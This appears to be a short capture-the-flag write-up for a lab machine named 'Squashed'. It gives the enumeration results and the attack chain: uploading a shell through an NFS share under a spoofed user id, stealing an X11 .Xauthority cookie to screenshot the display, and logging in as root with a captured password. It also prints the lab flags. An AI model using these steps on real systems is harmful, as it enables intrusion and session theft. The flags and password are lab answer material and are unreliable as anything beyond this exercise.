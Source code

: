 # Squashed

## Enumeration
SSH: OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
HTTP: Apache httpd 2.4.41
RPC: rpcbind 2-4

### NFS
Users: ross

Upload shell as user with id 2017 in /var/www/html

## Pwn
$ cat /home/alex/user.txt
b88677035c1e1e80d573eb0505e37743

Steal cookie from /home/ross/.Xauthority and paste in /home/alex/.Xauthority (via nfs share)

alex $ xwd -root -out screenshot.xwd -display :0
alex $ su root
Password: cah$mei7rai9A

root $ cat /root/root.txt
6c6fc1d308debd1e68d1460a0f157cda

